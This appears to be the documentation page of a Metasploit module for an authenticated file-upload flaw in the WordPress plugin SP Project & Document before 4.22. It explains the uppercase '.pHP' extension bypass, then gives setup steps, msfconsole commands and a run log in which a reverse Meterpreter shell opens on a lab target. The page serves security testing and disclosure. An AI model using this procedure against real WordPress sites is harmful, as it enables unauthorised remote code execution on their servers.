 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin SP Project & Document < 4.22.
This is due to an incorrect check of the uploaded file extension which should be of SGBP type.
Indeed, even if it is not possible to upload `.php` files, the security check only works with lowercase
making possible to upload `.pHP` files for instance.
Finally, the uploaded payload can be triggered by a call to `/wp-content/uploads/sp-client-document-manager/<user_id>/my_payload.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of SP Project & Document plugin from [there]
(https://downloads.wordpress.org/plugin/sp-client-document-manager.4.21.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/multi/http/wordpress_plugin_sp_project_document_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and SP Project & Document 4.21.
See the following output :

```
msf6 > use wordpress_plugin_sp_project_document_manager
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set rhost 192.168.1.35
rhost => 192.168.1.35
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set username admin
username => admin
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set password your_best_password
password => your_best_password
msf6 exploit(wordpress_plugin_sp_project_document_manager) > run

[*] Started reverse TCP handler on 192.168.1.28:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 4.21 of plugin SP Project & Document Manager found !
[+] The target is vulnerable. This version of SP Project & Document Manager is vulnerable !
[*] Uploading file 'ejtfh.pHP' containing the payload...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 4 opened (192.168.1.28:4444 -> 192.168.1.35:59938) at 2021-07-09 11:41:25 +0200
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 5 opened (192.168.1.28:4444 -> 192.168.1.35:59940) at 2021-07-09 11:41:45 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo 
Computer    : 217a92584fbf
OS          : Linux 217a92584fbf 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
meterpreter > 
```
